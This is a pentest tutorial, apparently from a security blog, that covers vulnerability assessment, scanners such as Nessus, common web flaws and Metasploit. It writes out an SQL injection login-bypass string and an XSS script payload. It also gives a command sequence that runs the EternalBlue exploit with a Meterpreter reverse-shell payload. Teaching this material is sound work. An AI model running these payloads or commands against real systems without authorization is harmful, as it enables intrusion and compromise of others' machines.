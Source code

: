 ```yaml
---
title: "Vulnerability Assessment and Exploitation: Identifying and Exploiting Security Weaknesses"
description: "Explore vulnerability assessment and exploitation techniques, including common web vulnerabilities like SQL injection and XSS, automated scanners, and the Metasploit framework."
image: "https://armur-ai.github.io/armur-blog-pentest/images/security-fundamentals.png"
icon: "code"
draft: false
---
```


## Introduction

Vulnerability assessment and exploitation are core components of penetration testing, focusing on identifying security weaknesses in systems and networks and demonstrating their potential impact. This tutorial explores these concepts, including common web application vulnerabilities, automated vulnerability scanners, and the Metasploit framework for exploitation.

## Vulnerability Assessment

Vulnerability assessment involves systematically identifying and evaluating security weaknesses in systems and networks. This process can be performed manually or using automated tools.

**Manual Vulnerability Assessment:**

*   **Code Review:** Analyze source code to identify potential vulnerabilities, such as buffer overflows, SQL injection flaws, and cross-site scripting (XSS) vulnerabilities.
*   **Configuration Reviews:** Examine system and network configurations for security misconfigurations, such as weak passwords, default accounts, and unnecessary services.
*   **Penetration Testing:** Conduct simulated attacks to identify vulnerabilities that can be exploited to gain unauthorized access or compromise data.

**Automated Vulnerability Scanners:**

Automated vulnerability scanners are tools that automatically scan systems and networks for known vulnerabilities. These tools can significantly speed up the vulnerability assessment process and provide a comprehensive overview of potential security weaknesses.

*   **Nessus:** A popular commercial vulnerability scanner that offers a wide range of features, including vulnerability detection, configuration auditing, and compliance checking.
*   **OpenVAS:** An open-source vulnerability scanner that provides similar functionality to Nessus.
*   **QualysGuard:** A cloud-based vulnerability management platform that offers automated scanning, vulnerability prioritization, and reporting capabilities.

## Common Web Application Vulnerabilities

Web applications are a common target for attackers due to their exposure to the internet and the potential for accessing sensitive data. Some common web application vulnerabilities include:

*   **SQL Injection (SQLi):** Attackers inject malicious SQL code into web application inputs to manipulate database queries and gain unauthorized access to data or modify database content.
    *   **Example:** An attacker could inject `' OR 1=1--` into a username field to bypass authentication.
*   **Cross-Site Scripting (XSS):** Attackers inject malicious scripts into web pages viewed by other users. When the victim's browser executes the script, it can steal their session cookies, redirect them to malicious websites, or deface the website.
    *   **Example:** An attacker could inject `<script>alert('XSS')</script>` into a comment field to display an alert box in the victim's browser.
*   **Cross-Site Request Forgery (CSRF):** Attackers trick users into performing unwanted actions on a website where they are currently authenticated. This can be achieved by embedding malicious links or forms in other websites or emails.
    *   **Example:** An attacker could embed a hidden form in a malicious email that automatically transfers money from the victim's bank account when they open the email.
*   **Authentication Bypass:** Attackers exploit weaknesses in authentication mechanisms to gain unauthorized access to systems or applications.
    *   **Example:** An attacker could exploit a weak password policy to guess a user's password or use brute-force techniques to crack it.

## Exploitation

Exploitation is the process of leveraging identified vulnerabilities to gain unauthorized access to systems or data. This phase demonstrates the potential impact of vulnerabilities and helps prioritize remediation efforts.

**Metasploit Framework:**

Metasploit is a popular open-source penetration testing framework that provides a collection of exploits, payloads, and auxiliary modules for exploiting vulnerabilities. It can be used to simulate various attacks, including:

*   **Remote Code Execution:** Execute arbitrary code on a remote system by exploiting vulnerabilities in services or applications.
*   **Privilege Escalation:** Gain higher privileges on a compromised system, such as obtaining administrator or root access.
*   **Denial of Service:** Launch DoS attacks to disrupt services or make systems unavailable.

**Example Metasploit Usage:**

1.  `msfconsole` (start the Metasploit console)
2.  `use exploit/windows/smb/ms17_010_eternalblue` (select an exploit for the EternalBlue vulnerability)
3.  `set RHOSTS 192.168.1.1` (set the target host)
4.  `set PAYLOAD windows/x64/meterpreter/reverse_tcp` (set the payload to establish a Meterpreter session)
5.  `exploit` (run the exploit)


## Conclusion

Vulnerability assessment and exploitation are critical steps in penetration testing, enabling organizations to identify and address security weaknesses before they are exploited by malicious actors. By combining manual techniques with automated scanners and leveraging tools like Metasploit, penetration testers can effectively assess the security posture of systems and networks and demonstrate the potential impact of vulnerabilities. Responsible disclosure of vulnerabilities and prompt remediation are essential for minimizing the risk of successful attacks. 